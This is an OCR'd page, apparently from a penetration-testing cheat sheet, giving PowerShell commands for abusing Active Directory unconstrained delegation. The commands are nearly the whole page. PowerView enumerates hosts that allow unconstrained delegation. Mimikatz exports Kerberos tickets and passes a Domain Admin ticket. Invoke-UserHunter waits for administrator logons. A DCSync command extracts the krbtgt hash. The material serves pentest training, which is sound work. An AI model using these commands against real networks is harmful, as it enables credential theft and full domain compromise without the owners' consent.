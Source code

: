 

- Identify Computer Objects where Unconstrained Delegation is allowed
    
    ```powershell
	
	# Enumerate computers with Unconstrained Delegation

	Get-NetComputer -UnConstrained

	
    Get-NetComputer -Unconstrained | select cn
	
	# List computers with Unconstrained Delegation Enabled:
	Get-NetComputer –unconstrained -verbose
	
	# Extract the Domain Admin TGT
		
	# Check if a token is available and save to disk
	## Get admin token After compromising the computer with UD enabled, we can trick or wait for an admin connection

	Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'

	
	# Reuse the ticket to perform other operations as Domain Admin:
	Invoke-Mimikatz –Command '"kerberos::ptt ticket.kirbi"'
	
	## Reuse of the DA token
	
	Invoke-Mimikatz -Command '"kerberos::ptt Administrator@krbtgt-DOMAIN.LOCAL.kirbi"'

	# Pull any sessions if logged on with administrator/ Printer Bug

	Invoke-UserHunter -ComputerName dcorp-appsrv -Poll 100 -UserName Administrator -Delay 5 -Verbose

	
	# Run DCSYNC Attack 
	## To use the DCSync feature for getting krbtg hash execute the below command with DA privileges

	Invoke-Mimikatz -Command '"lsadump::dcsync /user:cyberwarfare\krbtgt"'
	Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
